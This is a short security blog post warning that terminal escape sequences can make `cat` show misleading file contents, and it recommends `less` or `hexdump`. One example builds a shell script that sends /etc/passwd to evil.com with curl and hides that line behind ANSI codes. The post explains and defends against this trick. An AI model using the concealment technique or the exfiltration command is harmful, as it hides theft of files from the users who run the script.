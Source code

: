 ```yaml
---
title: Don't trust `cat`!
tags: []
summary: >-
  `cat` can hide malicious content behind terminal control sequences, so you
  should not trust its visual output. Use `less` or `hexdump` to inspect files
  instead.
---
```


To read a file `foo` in the terminal, we do `cat foo`, and the contents of the file are printed out. But because terminal control sequences are _in-band_ as ordinary stdout bytes, `cat`ting a file can do more than you think! You should not trust the visual output of cat as a faithful representation of the file contents.

This program clears the screen:

```c
#include <stdio.h>
int main() { printf("\033c"); return 0; }
```

We can achieve the same thing with the `printf` program in the CLI:

```bash
printf "\033c"  # Clears the screen
```

Because those are just bytes over stdout, we can write them to a file, and read from the file. This does the same thing and clears the screen:

```bash
printf "\033c" > clear_screen
cat clear_screen  # Clears the screen
```

There are all kinds of ANSI control sequences; you should consider the byte stream to have arbitrary control over your screen.

A file could look like a normal plaintext file with `cat`, but contain secret other bytes. Here's an example using the sequence `<ESC>[9D`, which deletes the previous 9 characters.

```
$ printf "invisible\033[9Dsome boring plaintext\n" > boring
~/dev/tmp/clear
$ cat boring
some boring plaintext
```

This is a clear opportunity for malicious files. The following constructs a shell file which looks innocent, but contains a secret command which uploads sensitive files to a remote server:

```
$ printf 'curl --data-binary @/etc/passwd https://evil.com;\033[2K\033[49Decho "You look great!"\n' > hello.sh
$ chmod +x hello.sh
$ cat hello.sh
echo "You look great!"
$ ./hello.sh  # Uh-oh
```

The shell chokes once it reaches the escape sequences, but by then it's too late: the shell has already run the malicious command and our secrets are leaked!

First, the file contains the malicious command, which is 49 characters long. Next, it has the escape sequence `<ESC>[2K` which clears the current line, then the escape sequence `<ESC>[49D` to delete the previous 49 characters. At this point, we're back to looking like a blank file. Finally we put in some nice-looking commands to convince the user to run the file.

Don't trust `cat`! If there's any possibility of malice, then inspect the file with `less`, or even `hexdump -C`.
